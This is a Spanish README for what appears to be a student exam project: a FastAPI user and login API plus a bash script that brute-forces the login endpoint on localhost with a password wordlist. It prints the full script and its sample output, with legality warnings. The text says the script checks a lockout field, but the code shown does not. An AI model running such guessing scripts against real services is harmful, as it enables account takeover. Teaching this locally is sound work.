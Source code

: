 # Practical Term Exam

Este repositorio contiene una API REST (FastAPI) para manejo básico de usuarios (CRUD) y autenticación. Incluye un script `brute.sh` pensado para pruebas locales (simula intentos de login).

---

## Contenido del repositorio

- `main.py` — implementación FastAPI con modelos en `sqlmodel` y almacenamiento en memoria (`users_db`).
- `brute.sh` — script bash que prueba múltiples contraseñas contra `http://127.0.0.1:8000/`.
- `requirements.txt` — dependencias: `fastapi`, `uvicorn`, `sqlmodel`.
- `.gitignore` — (recomendado) para evitar subir `venv/`, `__pycache__/`, etc.

---

## Estructura (actual)
```
practical-term-exam/
├── main.py
├── brute.sh
├── requirements.txt
└── (otros archivos opcionales)
```

## Requisitos y preparación

- **Python** 3.10+  
- **pip**
- **(Windows) Git Bash or WSL to run brute.sh**

Se recomienda crear un entorno virtual:

**Windows (PowerShell)**
``` bash
python -m venv venv
venv\Scripts\Activate.ps1
py -m pip install --upgrade pip
```
**Instalar dependencias**
``` bash 
pip install -r requirements.txt
```
**Cómo ejecutar la API**

Desde la raíz del proyecto, con el entorno virtual activado:
``` bash 
uvicorn main:app --reload --host 0.0.0.0 --port 8000
```
La API quedará accesible en: http://127.0.0.1:8000/

## ENDPOINTS DETECTADOS

- `GET /`  
  Root

- `POST /users`  
  Crear usuario — Body: `username`, `password`, `email?`, `is_active?`

- `GET /users`  
  Listar usuarios (devuelve datos "seguros" sin la contraseña)

- `GET /users/{user_id}`  
  Obtener usuario por id

- `PUT /users/{user_id}`  
  Actualizar usuario — Campos: `username`, `email`, `is_active`

- `DELETE /users/{user_id}`  
  Eliminar usuario

- `POST /login`  
  Login con `username` + `password`
  
  ## Ejemplo de login (body JSON)

```json
{ "username": "matias", "password": "matym123" }
````
## Respuesta satisfactoria actual
```json
{ "message": "login successful" }
```
## Respuesta por credenciales inválidas
```json
{ "message": "Invalid credentials" }
```
## Bruteforce / Script de prueba (`brute.sh`)

> **Advertencia:** Este script fue utilizado unicamente con fines educativos, hacer el mismo proceso con equipos de terceros seria considerado algo ilegal

### Versión final brute.sh

```bash
API="http://127.0.0.1:8000/login"
USER="matias"

WORDLIST=(matym123 hola123 adios546 arroz123 pollo123 loco456 hello123 maty123)

attempts=0
start=$(date +%s)

for pwd in "${WORDLIST[@]}"; do
  attempts=$((attempts+1))
  resp=$(curl -s -X POST "$API" \
    -H "accept: application/json" \
    -H "Content-Type: application/json" \
    -d "{\"username\":\"$USER\",\"password\":\"$pwd\"}")
  echo "[$attempts] Probando '$pwd' -> $resp"
  if [[ "$resp" == *"login successful"* ]]; then
    end=$(date +%s)
    echo "ENCONTRADA: password='$pwd' en $attempts intentos, $((end-start))s"
    exit 0
  fi
  sleep 0.2
done

end=$(date +%s)
echo "NO encontrada tras $attempts intentos en $((end-start))s"
exit 1
```
## Cómo funciona `brute.sh`

`brute.sh` es un script de prueba pensado para entornos locales. Su objetivo es automatizar intentos de login usando una lista de contraseñas (wordlist) para comprobar la lógica de autenticación y bloqueo de la API.

**Resumen del flujo:**
1. Define la URL del endpoint de login (`API`) y el usuario objetivo (`USER`).
2. Define un `WORDLIST` con posibles contraseñas.
3. Recorre cada contraseña:
   - Envía una petición `POST` con `curl` al endpoint `/login`.
   - Lee la respuesta (JSON) y comprueba si contiene la cadena/valor que indica éxito (`"login successful"`) o si hay un campo de bloqueo (`retry_after`).
   - Muestra en consola el intento actual y el resultado parcial.
4. Si encuentra la contraseña correcta, muestra el tiempo total y termina. Si no la encuentra, informa que no se encontró tras todos los intentos.

**Variables importantes dentro del script:**
- `API` — URL del endpoint (ej. `http://127.0.0.1:8000/login`)
- `USER` — nombre de usuario objetivo
- `WORDLIST` — arreglo con las contraseñas a probar
- `attempts` — contador de intentos
- `start` / `end` — tiempo de inicio/fin para medir duración

**Advertencia:** usar solo en entornos locales y con cuentas de prueba. Hacer fuerza bruta contra sistemas de terceros es ilegal.

---

## Uso (rápido)

Dar permisos y ejecutar:
```bash
chmod +x brute.sh
./brute.sh
```
### Ejemplo de salida en consola

#### 1) Contraseña encontrada
```
[1] Probando 'matym123' -> {"message":"Invalid credentials"}
[2] Probando 'hola123' -> {"message":"Invalid credentials"}
[3] Probando 'adios546' -> {"message":"login successful"}
ENCONTRADA: password='adios546' en 3 intentos, 1s
```
#### 2) Contraseña no encontrada
```
[1] Probando 'matym123' -> {"message":"Invalid credentials"}
[2] Probando 'hola123' -> {"message":"Invalid credentials"}
[3] Probando 'adios546' -> {"message":"Invalid credentials"}
[4] Probando 'arroz123' -> {"message":"Invalid credentials"}
[5] Probando 'pollo123' -> {"message":"Invalid credentials"}
[6] Probando 'loco456' -> {"message":"Invalid credentials"}
[7] Probando 'hello123' -> {"message":"Invalid credentials"}
[8] Probando 'maty123' -> {"message":"Invalid credentials"}
NO encontrada tras 8 intentos en 2s
```

